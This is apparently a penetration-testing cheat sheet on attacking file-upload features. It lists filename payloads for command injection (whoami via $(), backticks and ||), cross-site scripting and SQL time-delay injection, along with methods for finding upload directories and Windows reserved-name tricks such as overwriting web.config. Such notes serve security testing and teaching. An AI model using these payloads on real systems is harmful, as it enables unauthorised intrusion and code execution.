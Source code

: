 ## Injections in File Name
- file$(whoami).jpg
- file`whoami`.jpg
- file.jpg||whoami
- <script>alert(window.origin);</script>
- file';select+sleep(5);--.jpg

## Upload Directory Disclosure
- Utilize fuzzing to look for the uploads directory
- LFI/XXE to read source code
- Forcing error messages (upload a file with a name that already exists or sending two identical requests simultaneously) (upload a file with an overly long name)

## Windows-specific Attacks
- Use (|, <, >, *, or ?) in filename
- Use (CON, COM1, LPT1, or NUL) in filename
- Overwrite web.conf file with (WEB~1.CON)
